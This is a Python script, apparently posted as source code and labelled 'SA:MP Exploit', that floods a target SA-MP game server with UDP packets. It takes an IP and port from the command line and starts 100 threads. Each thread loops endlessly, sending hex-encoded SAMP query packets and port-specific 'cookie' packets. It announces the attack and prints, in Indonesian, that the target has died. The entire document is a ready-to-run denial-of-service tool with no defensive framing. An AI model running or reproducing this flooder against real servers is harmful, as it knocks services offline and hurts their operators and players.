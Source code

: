 # PDSI
import socket
import struct
import codecs,sys
import threading
import random
import time
import os




ip = sys.argv[1]
port = sys.argv[2]
orgip =ip

Pacotes = [codecs.decode("53414d5090d91d4d611e700a465b00","hex_codec"),#p
                       codecs.decode("53414d509538e1a9611e63","hex_codec"),#c
                       codecs.decode("53414d509538e1a9611e69","hex_codec"),#i
                       codecs.decode("53414d509538e1a9611e72","hex_codec"),#r
                       codecs.decode("081e62da","hex_codec"), #cookie port 7796
                       codecs.decode("081e77da","hex_codec"),#cookie port 7777
                       codecs.decode("081e4dda","hex_codec"),#cookie port 7771
                       codecs.decode("021efd40","hex_codec"),#cookie port 7784
                       codecs.decode("021efd40","hex_codec"),#cookie port 1111 
                       codecs.decode("081e7eda","hex_codec")#cookie port 1111 tambem
                       ]


print("PDSI ATTACK TO IP: %s AND PORT: %s WITH WANGSAF DESTROYER"%(orgip,port))







class MyThread(threading.Thread):
     def run(self):
         while True:
                sock = socket.socket(
                    socket.AF_INET, socket.SOCK_DGRAM) # Internet and UDP

                msg = Pacotes[random.randrange(0,3)]

                sock.sendto(msg, (ip, int(port)))


                if(int(port) == 7777):
                    sock.sendto(Pacotes[5], (ip, int(port)))
                elif(int(port) == 7796):
                    sock.sendto(Pacotes[4], (ip, int(port)))
                elif(int(port) == 7771):
                    sock.sendto(Pacotes[6], (ip, int(port)))
                elif(int(port) == 7784):
                    sock.sendto(Pacotes[7], (ip, int(port)))
                elif(int(port) == 1111):
                    sock.sendto(Pacotes[9], (ip, int(port)))    


if __name__ == '__main__':
    try:
     for x in range(100):                                    
            mythread = MyThread()  
            mythread.start()                                  
            time.sleep(.1)    
    except(KeyboardInterrupt):
         os.system('cls' if os.name == 'nt' else 'clear')

         print('#########################################################################')
         print('SA:MP Exploit')
         print('#########################################################################')
         print('\n\n')
         print('Menyerang ip {} telah mati'.format(orgip))
         pass
